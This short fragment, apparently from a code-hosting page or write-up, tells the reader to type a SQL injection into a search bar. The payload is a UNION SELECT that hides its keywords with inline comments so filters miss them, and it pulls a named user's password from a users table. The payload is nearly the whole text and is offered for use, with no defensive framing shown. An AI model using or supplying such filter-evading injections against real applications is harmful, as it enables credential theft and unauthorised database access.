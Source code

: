 Enter this SQL injection in the search bar:

```sql
`UN/**/ION SELE/**/CT password FR/**/OM users WHE/**/RE username='<username>';—
```

Where `<username>` is the given username.
